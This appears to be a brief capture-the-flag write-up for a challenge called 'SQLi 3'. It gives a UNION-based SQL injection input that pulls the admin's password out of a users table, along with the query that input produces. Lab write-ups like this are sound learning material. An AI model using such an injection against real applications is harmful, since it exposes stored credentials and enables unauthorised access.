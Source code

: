 # SQLi 3

Observing the server code we get to know that the password of the admin is the flag.

Query: admin" UNION SELECT password FROM users WHERE username LIKE "admin

SQL Query formed:

```sql
SELECT username FROM users WHERE username LIKE "admin" UNION SELECT password FROM users WHERE username LIKE "admin"
```
